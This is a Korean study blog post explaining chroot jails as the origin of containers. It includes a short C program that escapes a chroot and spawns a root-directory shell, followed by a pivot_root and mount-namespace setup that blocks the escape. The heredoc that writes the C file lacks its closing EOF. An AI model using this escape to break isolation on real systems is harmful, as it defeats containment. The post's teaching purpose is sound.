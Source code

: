 ```yaml
---
layout: post
title: 컨테이너의 시작 chroot 감옥 체험기
category: study
tags: kans
---
```


컨테이너는 가상머신과 다르게 커널을 공유해서 바로 프로세스를 실행 할 수 있는 구조이다. 
아래 그림과 같이 호스트 커널을 공유하지만 각각의 독립된 사용자 공간을 가진다.

![1-0-0](/assets/img/1-0-0.png)



이러한 컨테이너의 시작은 특정 디렉토리를 루트(/)로 지정하여 해당 경로에 프로세스를 가두는 방식이다.

![1-0-1](/assets/img/1-0-1.png)

루트디렉토리 아래에 있는 디렉토리 A를 루트로 지정하여 들어가게되면

![1-0-2](/assets/img/1-0-2.png)

안에 있는 프로세스들은 디렉토리 A를 루트로 갇히게 된다.



#### 사용되는 명령어

chroot
:프로세스가 실행되는 루트 디렉토리를 특정 디렉토리로 변경한다.
pivot_root
:프로세스의 마운트 네임스페이스에서 루트 마운트를 특정 디렉토리에 마운트 되어있는 새 마운트로 변경한다.



![1-1-0](/assets/img/1-1-0.png)
#### 감옥생성

```
# 루트가 될 디렉토리(new-root)를 생성 후 필요한 명령어 복사
mkdir -p new-root/bin
cp $(which bash) new-root/bin

# 명령어 실행 시 참조하는 라이브러리 복사
ldd /bin/bash
cp /lib/x86_64-linux-gnu/libtinfo.so.6 new-root/lib/
...
```
이런식으로 필요한 명령어들을 하나씩 복사해서 넣어준다.
chroot 명령어를 통해 들어가보면 만들어진 루트 디렉토리에 갇힌 것을 확인할 수 있다.

![1-1](/assets/img/1-1.png)



#### 탈옥
탈옥하기에 앞서 위와 같이 명령어를 하나씩 다 넣기는 힘드니 만들어진 이미지를 사용하여 새로운 루트를 만들어준다.

```
# nginx이미지를 tar로 압축 후 nginx-root 디렉토리에 압축 해제
docker export $(docker create nginx:latest) | tar -C nginx-root -xvf -

# 탈옥 코드
cat <<EOF >escape_chroot.c
#include <sys/stat.h>
#include <unistd.h>

int main(void)
{
  mkdir(".out",0755);
  chroot(".out");
  chdir("../../../../../");
  chroot(".");

  return execl("/bin/sh", "-i", NULL);
}

# 위의 코드를 컴파일하여 nginx-root에 escape_chroot이라는 실행 파일을 생성
gcc -o nginx-root/escape_chroot escape_chroot.c
```
chroot 명령어를 사용하여 들어가 탈옥코드로 만든 실행파일을 실행시키면 진짜 루트 디렉토리로 나오게된다.

![1-2](/assets/img/1-2.png)



#### 문제 해결을 위해 pivot_root와 mount namespace를 이용하여 다시 가두기

```
# 디렉토리 생성 후 800M사이즈의 파일시스템을 마운트 
mkdir new-root 
mount -n -t tmpfs -o size=800M none new-root

# 위에서 테스트 했던 nginx-root의 파일들을 복사하여 새 디렉토리에 붙여넣기
cp -r nginx-root/* new-root/

# 
mkdir new-root/old-root

# 호스트에 영향을 주지않기 위해 mount namespace분리 (new-root에서 실행)
unshare -m
```
escape_chroot을 돌려도 만들어진 루트 디렉토리에서 빠져나오지 못하는 것을 확인할 수 있다.

![1-3](/assets/img/1-3.png)


---
참고
- https://netpple.github.io/docs/make-container-without-docker/container-internal-1
- https://netpple.github.io/docs/make-container-without-docker/container-internal-2
- https://www.44bits.io/ko/post/change-root-directory-by-using-chroot

- https://man7.org/linux/man-pages/man2/chroot.2.html
- https://manpages.debian.org/bullseye/manpages-dev/pivot_root.2.en.html

